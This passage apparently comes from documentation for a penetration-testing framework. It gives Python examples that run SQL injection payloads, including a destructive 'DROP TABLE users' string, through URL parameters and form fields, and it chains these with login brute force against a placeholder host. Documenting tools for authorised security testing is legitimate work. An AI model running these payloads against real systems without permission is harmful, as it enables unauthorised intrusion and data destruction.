 ### SQL Injection Testing

```python
from scythe.ttps.web.sql_injection import URLManipulation

# SQL injection payloads
sql_payloads = StaticPayloadGenerator([
    "' OR '1'='1",
    "' OR '1'='1' --",
    "' UNION SELECT NULL--",
    "'; DROP TABLE users; --"
])

# Test URL parameter injection
sql_ttp = URLManipulation(
    payload_generator=sql_payloads,
    target_url="http://example.com/search"
)

executor = TTPExecutor(
    ttp=sql_ttp,
    target_url="http://example.com/search"
)
executor.run()
```

### Form Field Injection

```python
from scythe.ttps.web.sql_injection import InputFieldInjector

# Test form field injection
form_sql_ttp = InputFieldInjector(
    target_url="http://example.com/search",
    field_selector="input[name='query']",
    submit_selector="button[type='submit']",
    payload_generator=sql_payloads
)

executor = TTPExecutor(ttp=form_sql_ttp, target_url="http://example.com/search")
executor.run()
```

### Multiple TTPs in Sequence

```python
# Run multiple TTPs against same target
ttps = [
    ("Login Brute Force", login_ttp),
    ("SQL Injection", sql_ttp),
    ("Form Injection", form_sql_ttp)
]

for name, ttp in ttps:
    print(f"\n=== Running {name} ===")
    executor = TTPExecutor(
        ttp=ttp,
        target_url="http://example.com"
    )
    executor.run()
```
